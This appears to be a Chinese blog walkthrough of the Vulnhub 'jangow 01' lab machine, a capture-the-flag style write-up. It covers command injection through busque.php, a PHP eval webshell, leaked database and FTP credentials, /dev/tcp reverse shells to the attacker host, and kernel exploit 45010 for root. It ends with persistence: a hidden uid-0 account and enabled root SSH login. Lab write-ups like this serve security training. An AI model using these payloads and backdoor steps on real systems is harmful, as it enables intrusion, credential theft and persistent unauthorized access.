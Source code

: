 ```yaml
---
layout: post
title: jangow 01
subtitle: jangow 01
date: 2022-12-15 12:04
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. jangow 01

靶机 ip：192.168.56.118

kali 攻击机 ip：172.17.46.146

### 1.1. nmap 扫描 IP

靶机 IP 已知：

```shell
nmap -A 192.168.56.118
```

![image-20221215120422075.png](https://img.ghostliner.top/KlHhcv.png)

### 1.2. 扫描目录

```shell
dirb http://192.168.56.118
```

```
http://192.168.56.118/server-status
http://192.168.56.118/site/index.html
http://192.168.56.118/site/wordpress/index.html
```

### 1.3. 访问网站

<http://192.168.56.118>

点击`site`进入新的页面，查看源码发现：

![image-20221215121549451.png](https://img.ghostliner.top/HuwqNT.png)

```html
<li class="nav-item">
  <a class="nav-link" href="busque.php?buscar=">Buscar</a>
</li>
```

在地址栏输入参数判断此处有命令执行漏洞

![image-20221215121829007.png](https://img.ghostliner.top/OJ5Thb.png)

使用 burp suit 进一步测试

```
cat+busque.php
<?php system($_GET['buscar']); ?>
echo+"bash+-c+'0<%262-%3bexec+22<>/dev/tcp/172.17.46.146/4444%3bsh+<%2622+>%2622+2>%2622'"+>+shell.sh
find+/+-perm+-4000+2>/dev/null
```

经测试，能写入文件，但无法 ping 通 kaliIP，无法反弹 shell。使用一句话木马+antsword

```
buscar=echo '<?php @eval($_POST['para']); ?>' > test.php
```

成功连接，发现/site/wordpress/config.php 内容有用户名和密码。访问后报错

```
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

发现/.backup 文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

尝试修改 config.php 中 database 和 username。再次访问仍报错

目标机开启了 21 和 80 端口。尝试用户名密码登录 ftp

```
ftp 192.168.56.118
desafio02 abygurl69
失败
ftp 192.168.56.118
jangow01 abygurl69
成功
```

![image-20221219214101588.png](https://img.ghostliner.top/W3o0Y2.png)

进入后是在/var/www 目录下，没什么收获，继续用 AntSword

发现 /home/jangow01/user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

MD5 解码

```
查询结果：
[空密码]/[Empty String]
```

```
systemd-private-d6139d42208945be97253054fca34ee2-systemd-timesyncd.service-cCdsLz
```

### 1.4. 反弹 shell

使用 AntSword 的 shell 有时无回显，尝试反弹 shell

在 site 目录下新建 shell.sh 写入如下内容，在终端执行

```shell
bash -c '0<&2-;exec 22<>/dev/tcp/192.168.56.102/443;sh <&22 >&22 2>&22'
```

==只有 443 端口可以，其他端口无法连接==

kali 成功获取 shell

![image-20221220154726740.png](https://img.ghostliner.top/ReFxXh.png)

升级 tty shell，输入

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20221220154914986.png](https://img.ghostliner.top/JWFfqu.png)

成功升级界面，并切换到 jangow01 用户

![image-20221220155027321.png](https://img.ghostliner.top/At7d64.png)

可尝试 suid 提权。

这里选择内核漏洞提权

### 1.5. 提升权限

```shell
uname -a #查看系统内核
# Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
searchsploit ubuntu 4.4.0-31 #查找相关漏洞
```

![image-20221220155427153.png](https://img.ghostliner.top/gFLQso.png)

使用**linux/local/45010.c** 。将文件复制下来，并编译

```shell
searchsploit -m 45010.c
gcc 44298.c -o 45010
```

![image-20221220155715500.png](https://img.ghostliner.top/mPn78M.png)

可以使用 ftp 或 AntSword 上传到目标机**/home/jangow01/**目录下

```
ftp 192.168.56.118
jangow01
abygurl69
cd /home/jangow01
put 45010
ls
```

![image-20221220160244999.png](https://img.ghostliner.top/8ZDtbp.png)

**chmod +x 45010** 添加权限后执行

成功获取 root 权限。发现 root 目录下 proof.txt 文件，内容：

```
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

MD5 查询结果：
[空密码]/[Empty String]

### 1.6. 权限维持

添加 root 用户

```shell
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

排查技巧：

```shell
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

查看防火墙状态

```shell
ufw status
cat /etc/ufw/user.rules
```

打开或关闭某个端口

```shell
sudo ufw allow smtp　允许所有的外部IP访问本机的25/tcp (smtp)端口
udo ufw allow 22/tcp 允许所有的外部IP访问本机的22/tcp (ssh)端口
sudo ufw allow 53 允许外部访问53端口(tcp/udp)
sudo ufw allow from 192.168.1.100 允许此IP访问所有的本机端口
sudo ufw allow proto udp 192.168.0.1 port 53 to 192.168.0.2 port 53
sudo ufw deny smtp 禁止外部访问smtp服务
sudo ufw delete allow smtp 删除上面建立的某条规则
```

开启 22 端口

```shell
ufw allow 22/tcp
vi /etc/ssh/sshd_config
# 将#PermitRootLogin without-password改为PermitRootLogin yes
echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config
输入/etc/init.d/ssh restart ，重启下ssh服务
```

